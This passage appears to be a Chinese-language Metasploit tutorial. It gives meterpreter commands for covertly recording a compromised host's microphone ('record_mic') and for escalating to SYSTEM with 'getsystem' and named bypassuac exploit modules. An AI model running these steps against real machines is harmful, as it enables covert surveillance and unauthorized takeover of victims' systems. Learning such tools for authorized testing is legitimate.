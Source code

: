  在meterpreter下, 输入:
```
help
```
![](https://cdn.jsdelivr.net/gh/wangyuhubugui/BJYH_picture@main/img/image-20230115190111245.png#id=fPXKO&originHeight=66&originWidth=460&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

查看帮助输入:
```
record_mic -h
```
```
    -d   默认录制1秒, 这里设置录制的时间
    -f   设置录制后文件的存储路径 (Default: '/home/kali/[randomname].wav')
    -h   查看帮助               Help Banner
    -p   自动播放, 默认是true   Automatically play the captured audio (Default: 'true')
```
![](https://cdn.jsdelivr.net/gh/wangyuhubugui/BJYH_picture@main/img/image-20230115190037482.png#id=V2j96&originHeight=236&originWidth=618&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

录制4秒视频
![](https://cdn.jsdelivr.net/gh/wangyuhubugui/BJYH_picture@main/img/image-20230115185936000.png#id=Cxi1W&originHeight=88&originWidth=555&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
> 到kali的指定的路径下, 就可以看到录制的文件了.



## 提权

### 方法一

```
getuid
```

```
getsystem
```

![](https://cdn.jsdelivr.net/gh/wangyuhubugui/BJYH_picture@main/img/image-20230115191827897.png#id=LuDQJ&originHeight=97&originWidth=745&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

> 成功啦!


### 方法二

1. 查看提权模块, 在msf 中输入:

```
 search bypassuac
```

![](https://cdn.jsdelivr.net/gh/wangyuhubugui/BJYH_picture@main/img/image-20230115193055345.png#id=hbeW6&originHeight=356&originWidth=737&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

2. 从上面的模块中选一个, 能用就行

```
use  exploit/windows/local/bypassuac_windows_store_reg  

# 或者use exploit/windows/local/bypassuac_sluihijack
# 或者use exploit/windows/local/bypassuac_dotnet_profiler
```

